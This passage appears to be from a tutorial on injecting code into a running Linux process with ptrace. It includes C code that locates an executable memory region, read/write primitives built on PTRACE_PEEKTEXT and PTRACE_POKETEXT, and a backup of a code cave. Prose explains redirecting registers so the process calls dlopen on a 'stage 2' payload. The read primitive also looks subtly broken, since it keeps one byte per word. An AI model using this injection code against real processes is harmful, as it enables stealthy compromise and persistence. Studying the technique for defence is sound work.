 ```c
        if(strstr(perms, "r-xp") != NULL)
        {
            break;
        }
    }
    fclose(fp);
    return addr;
}
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
In order to read and write remote memory we will need primitives to speed up the process:

```c
// Primitives are taken from https://github.com/xpn/ssh-inject/blob/master/inject.c
void ptraceRead(int pid, unsigned long long addr, void *data, int len) {
    long word = 0;
    int i = 0;
    char *ptr = (char *)data;

    for (i=0; i < len; i+=sizeof(word), word=0) {
        if ((word = ptrace(PTRACE_PEEKTEXT, pid, addr + i, NULL)) == -1) {;
            exit(1);
        }
        ptr[i] = word;
    }
}

void ptraceWrite(int pid, unsigned long long addr, void *data, int len) {
    long word = 0;
    int i=0;

    for(i=0; i < len; i+=sizeof(word), word=0) {
        memcpy(&word, data + i, sizeof(word));
        if (ptrace(PTRACE_POKETEXT, pid, addr + i, word) == -1) {;
            exit(1);
        }
    }
}
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
So with all of this code we can: search for a r-x region, read memory and write memory. That is nice!. We want to write our stub in an address where is probably there is another code, so it __is really important to backup this region__ before insert our code. After our code is executed, we are going to restore it's original content. So do the backup:

```c
	// Find a memory region with executable perms
    code_cave_address = freespaceaddr(pid) + sizeof(unsigned long long);
    if (!code_cave_address) {
        exit(-1);
    }   
    
    // Backup whatever there is at that region    
    oldcode = (unsigned char*) malloc(CAVE_SIZE);
    ptraceRead(pid, code_cave_address, oldcode, CAVE_SIZE);
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Let's inject our code and modify registers (it is x86_64, so RAX must be the address of dlopen, RDI the location of our stage 2 and RSI the value of RTLD_LAZY). Of course we put RIP pointing to our stub (__injectme()__), so when the exeuction will be resumed our code will be executed:

